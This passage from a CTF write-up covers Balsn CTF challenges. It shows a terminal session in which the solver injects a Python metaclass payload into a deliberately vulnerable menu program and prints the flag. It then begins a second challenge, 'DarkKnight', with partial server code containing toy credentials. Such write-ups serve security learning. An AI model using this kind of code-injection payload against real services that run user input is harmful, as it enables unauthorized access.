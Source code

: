 ``` bash
1. Add attribute
2. Add method
3. Finish
Option ? :2
Give me your method name :ccc
Give me your function:type(*self.d)('',(),{})().IWantGETFLAGPlz()
Well Done! We Create an instance for you !
1. Inspect attribute
2. Using method
3. Exit
Option ? :2
Please enter the method's name :aaa
calling method aaa...
done
1. Inspect attribute
2. Using method
3. Exit
Option ? :2
Please enter the method's name :bbb
calling method bbb...
done
1. Inspect attribute
2. Using method
3. Exit
Option ? :2
Please enter the method's name :ccc
calling method ccc...
 () {'getFlag': <function MasterMetaClass.__new__.<locals>.getFlag at 0x7f06a60c2550>}
Here you go, my master
BALSN{Metaclasses_Are_Deeper_Magic_Than_99%_Of_Users_Should_Ever_Worry_About._If_You_Wonder_Whether_You_Need_Them,_You_Don't.-Tim_Peters_DE8560A2}
done
```

### flag
BALSN{Metaclasses_Are_Deeper_Magic_Than_99%_Of_Users_Should_Ever_Worry_About._If_You_Wonder_Whether_You_Need_Them,_You_Don't.-Tim_Peters_DE8560A2}

### 參考
[淺談 Python Metaclass](https://dboyliao.medium.com/%E6%B7%BA%E8%AB%87-python-metaclass-dfacf24d6dd5)

## DarkKnight
### 題目

![image](https://user-images.githubusercontent.com/57281249/142795120-ce0a446a-5e10-4998-bd33-1f72ad9d4eea.png)
### server code

``` python3
import os
import shutil

base_dir = f"C:\\Users\\balsnctf\\Documents\\Dark Knight\\tmp-{os.urandom(16).hex()}"

def init():
    os.mkdir(base_dir)
    os.chdir(base_dir)

    with open("39671", "w") as f:
        f.write("alice\nalice1025")
    with open("683077", "w") as f:
        f.write("bob\nbob0105a")
```